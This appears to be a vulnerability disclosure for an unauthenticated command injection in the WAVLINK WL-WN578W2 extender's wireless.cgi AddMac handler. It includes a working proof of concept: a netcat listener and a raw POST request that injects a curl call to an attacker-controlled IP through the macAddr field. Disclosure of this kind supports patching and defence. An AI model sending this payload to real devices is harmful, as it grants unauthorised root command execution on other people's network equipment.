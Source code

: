 \# WAVLINK WL-WN578W2 M78W2\\\_V221110 Unauthenticated Command Injection (wireless.cgi AddMac)



PS:







1\.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).



2\.  \*\*No authentication required\*\*: No cookie or login credentials needed—vulnerability exploitable directly.



\## Overview



An unauthenticated command injection vulnerability exists in the `AddMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\\\_V221110). The `macAddr` parameter is unsanitized and directly concatenated into system commands. Attackers can send POST requests with `page=AddMac` and inject arbitrary commands via `macAddr`—no login required—to execute `root`-level operations.







!\[Vulnerability Flow: Unauthenticated Injection](./imgs/1.png)



\## Details







\*   \*\*Vendor\*\*: WAVLINK



\*   \*\*Product\*\*: WL-WN578W2 (wireless range extender)



\*   \*\*Firmware\*\*: M78W2\\\_V221110



\*   \*\*Endpoint\*\*: `/cgi-bin/wireless.cgi` (POST, `page=AddMac`)



\*   \*\*Vulnerable Parameter\*\*: `macAddr`



\*   \*\*Type\*\*: Unauthenticated Command Injection



\*   \*\*Impact\*\*: Execute arbitrary `root` commands (exfiltrate data, plant backdoors) without credentials



\*   \*\*Reported by\*\*: n0ps1ed (n0ps1edzz@gmail.com)

\### Description







1\.  \*\*No Effective Auth Check\*\*: The `ftext` function’s authentication logic (via `sub\_404DBC()`) is ineffective, allowing unauthenticated requests to proceed.



2\.  \*\*Action Routing\*\*: When `page=AddMac` is parsed, the `sub\_4030F8` function is called to process the request.



3\.  \*\*Unsanitized Injection\*\*: `macAddr` is extracted and directly concatenated into the command `addmac %s` via `sprintf`, with no filtering of separators (e.g., `;`). This allows unauthenticated attackers to inject arbitrary commands.







!\[Vulnerability Code Snippet](./imgs/2.png)

!\[Vulnerability Code Snippet](./imgs/3.png)



\## Proof of Concept (PoC)



\### PoC: Inject `curl` via `macAddr`



No login or cookie needed.



\#### 1. Start Netcat Listener



On attacker machine (IP: 192.168.10.154):







```

nc -lvnp 1234

```







!\[Netcat Listener](./imgs/8.png)



\#### 2. Send Unauthenticated POST Request







```

POST /cgi-bin/wireless.cgi HTTP/1.1



Host: wifi.wavlink.com



Cache-Control: max-age=0



Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"



Sec-Ch-Ua-Mobile: ?0



Sec-Ch-Ua-Platform: "Linux"



Accept-Language: en-US,en;q=0.9



Upgrade-Insecure-Requests: 1



User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36



Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\\\*/\\\*;q=0.8,application/signed-exchange;v=b3;q=0.7



Sec-Fetch-Site: none



Sec-Fetch-Mode: navigate



Sec-Fetch-User: ?1



Sec-Fetch-Dest: document



Accept-Encoding: gzip, deflate, br



Priority: u=0, i



Connection: keep-alive



Content-Length: 48



page=AddMac\\\&addMac=\\\&addName=\\\&macAddr=;curl http://192.168.10.154:1234

```



\#### 3. Verify Execution



Netcat receives request from device, confirming command injection success:







!\[Injection Result](./imgs/4.png)



